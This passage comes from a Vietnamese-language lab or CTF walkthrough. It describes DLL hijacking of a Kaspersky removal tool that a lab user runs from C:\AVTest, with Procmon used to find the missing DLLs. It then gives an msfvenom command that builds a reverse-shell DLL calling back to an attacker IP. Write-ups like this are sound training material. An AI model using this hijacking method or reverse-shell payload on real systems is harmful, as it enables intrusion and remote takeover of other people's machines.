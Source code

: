 ```
*Evil-WinRM* PS C:\AVTest> ls


    Directory: C:\AVTest


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         9/14/2022   4:46 PM        4870584 KasperskyRemovalTool.exe
-a----         9/14/2022   7:05 PM            235 readme.txt


*Evil-WinRM* PS C:\AVTest> cat readme.txt
Since none of the AV Tools we tried here in the lab satisfied our needs it's time to clean them up.
I asked Christine to run them a few times, just to be sure.

Let's just hope we don't have to set this lab up again because of this.
```
Ở đây ta biết được có vẻ như user Christine sẽ chạy file PE32 này một vài lần, nên đây có lẽ là vector khả dĩ nhất để ta có thể đi xa hơn, mình sẽ download file PE32 đó về máy ảo của mình để phân tích. Do check thử CVE liên quan nhưng cũng không có vẻ khả quan lắm nên đành tự kiểm tra. Ở đây mình dùng máy Win 10, chuyển file PE32 sang và cùng với Procmon, sau vài bước lược bớt thì mình sẽ phân tích tiếp với filter như sau:

![Screenshot 2024-12-09 161626](https://github.com/user-attachments/assets/85c9382f-6ed2-42cd-91d1-1e7ba9cadede)

Sau khi xem một hồi ta sẽ thấy trong cùng folder với file PE32 này (bỏ qua hết các DLL gọi từ C:\Windows\System32 hay tương tự), ta thấy nó sẽ gọi đến vài file DLL mà không hề tồn tại, kết hợp với việc ta có quyền ghi vào cùng folder với file PE32 này ở bên phía machine child domain, ta có thể thử DLL hijacking.

![Screenshot 2024-12-09 161129](https://github.com/user-attachments/assets/904634fa-8906-43db-a0a3-a9d8272b4f22)

Ta có thể tạo ra một file DLL với msfvenom với một trong những cái tên như sau:
```
USERENV.dll
RICHED20.DLL
KasperskyRemovalToolENU.dll
msls31.dll
USP10.dll
TextShaping.dll
Wldp.dll
msi.dll
```
Và ở đây mình sẽ dùng *KasperskyRemovalToolENU.dll*
```
msfvenom -p windows/shell_reverse_tcp LHOST=10.8.4.152 LPORT=4444 -f dll > KasperskyRemovalToolENU.dll
```
Giờ chỉ việc chuyển file dll này sang máy child domain ở folder C:\AVTest ngồi chờ thôi, và sau gần một phút, ta sẽ có được một cái shell trả về
